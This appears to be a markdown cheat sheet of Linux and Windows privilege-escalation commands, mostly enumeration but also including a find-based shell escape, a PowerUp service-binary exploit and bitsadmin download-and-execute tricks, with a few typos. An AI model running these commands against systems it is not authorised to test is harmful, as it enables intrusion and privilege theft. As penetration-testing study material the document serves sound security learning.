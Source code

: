 # Privilege Escalation
## Linux
### Identify Services Running as Root
```cmd
ps -aux | grep root
```

### Search for files with SETUID
```bash
find / -perm -4000 -ls 2>/dev/null
```

### GTFOBin - Find
```cmd
find . -exec /bin/sh \; -quit
```


## Windows
### WINPEAS
```powershell
windpeas.exe
```
### Seatbelt
#### Simple Checks
##### AV Checks
```powershell
seatbelt.exe -q AntiVirus -outputfile="<filename.txt>"
```
##### Installed Products
```powershell
seatbelt.exe -q InstalledProducts  -outputfile="<filename.txt>"
```
##### TCP Connections
```powershell
seatbelt.exe -q TcpConnections  -outputfile="<filename.txt>"
```
##### System Group Checks
```powershell
seatbelt.exe -q group=system  -outputfile="<filename.txt>"
```
Interesting groups
    * system
    * user
    * remote -computername=host.target.com
    * chrome
    * slack
    * misc
    * all
##### Remote System Checks
```powershell
seatbelt.exe -q AppLocker computername=10.10.10.15 -user=hitbox\bgreen -password=Password1  -outputfile="<filename.txt>"
```

### PowerUP
#### Import Module
```powershell
Import-Module .\PowerUp.ps1
```
#### Run All Checks 
```powershell
Invoke-AllChecks
```
#### Exploit the Vulnerability
```powershell
Write-ServiceBinary -ServiceName 'Video Stream' -Path 'C:\Program Files\Video Stream\1337.exe"
```
##### Verify the Exploit worked
```powershell
net localgroup administrator
```

### LOLBAS
#### Find Unquoted Service Paths
```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "AUTO" | findstr /i /v c:\windows\\* | findstr /i /v """
```
#### bitsadmin
##### Download a file
```cmd
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternalls.com/autoruns.exe c:\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
##### Copy a File
```cmd
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /complete 1 & bitsadmin /reset
```
##### Execute a file
```cmd
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 C:\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /reset
```
##### Execute a file from Alternate Data Stream
```cmd
bitsadmin /create 1 bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 C:\playfolder\1.txt:cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /complete 1
```

## Linux
### User Enumeration
```bash
id
```
### hostname enumeration
```bash
hostname
```
### Enumerate Users and shell access
```bash
cat /etc/passwd
```
### Enumerate OS
```bash
cat /etc/issue
```
```bash
cat /etc/os-release
```
```bash
uname -a
```

### Process enumeration
```bash
ps aux
```

### Network Enumeration
```bash
ip a
```
```bash
route
```
```bash
routel
```
### Active Connection Enumeration
```bash
netstat -anop
```
```bash
ss- anop
```
### Enumerate Firewall Rules
```bash
cat /etc/iptables/rules.v4
```
### Enumerate Scheduled Tasks
```bash
ls -lah /etc/cron*
```
```bash
crontab -l
```
### Enumerate Installed Packages
```bash
dpkg -l
```
### Find Writeable Files
```bash
find / -writable -type d 2>/dev/null
```
### Enumerate Mounted File System
```bash
cat /etc/fstab
```
### View all available disks
```bash
lsblk
```
### Enumerate loaded kernel modules
```bash
lsmod
```
### View info for module
```bash
/sbin/modinfo <module>
```
### Find Files with SUID set
```bash
find / -perm -u=s -type f 2>/dev/null
```
### Automated Checks
#### Unix Privesc checks
```bash
unix-privesc-check
```

### Credentials
#### Enumerate Environment
```bash
env
cat .bashrc
```